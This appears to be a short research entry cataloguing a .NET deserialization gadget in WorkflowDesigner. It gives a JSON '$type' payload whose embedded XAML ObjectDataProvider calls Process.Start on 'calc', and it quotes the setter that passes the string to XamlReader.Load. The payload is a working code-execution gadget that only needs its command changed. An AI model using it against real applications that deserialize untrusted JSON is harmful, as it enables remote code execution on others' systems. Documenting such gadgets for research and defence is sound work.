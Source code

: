 # Sample JSON payload

```json
{"$type":"System.Activities.Presentation.WorkflowDesigner,
System.Activities.Presentation, Version=4.0.0.0, Culture=neutral,
PublicKeyToken=31bf3856ad364e35",
"PropertyInspectorFontAndColorData":"<ResourceDictionary
xmlns=\"http://schemas.microsoft.com/winfx/2006/xaml/presentation\"
  xmlns:x=\"http://schemas.microsoft.com/winfx/2006/xaml\"
  xmlns:System=\"clr-namespace:System;assembly=mscorlib\"
  xmlns:Diag=\"clr-namespace:System.Diagnostics;assembly=system\">
     <ObjectDataProvider x:Key=\"LaunchCalc\"
        ObjectType=\"{x:Type Diag:Process}\"
        MethodName=\"Start\">
        <ObjectDataProvider.MethodParameters>
            <System:String>calc</System:String>
        </ObjectDataProvider.MethodParameters>
</ObjectDataProvider> </ResourceDictionary>"
}
```

# Source code

```csharp
// System.Activities.Presentation.WorkflowDesigner
public void set_PropertyInspectorFontAndColorData(string value)
{
...
StringReader input = new StringReader(value);
XmlReader reader = XmlReader.Create(input);
Hashtable hashtable = (Hashtable)XamlReader.Load(reader);
```

# Attack vector

Execute static method during parsing of Xaml payload.

# Requirements

Constructor of this Type requires Single-Threaded-Apartment (STA) thread

# PoC

TODO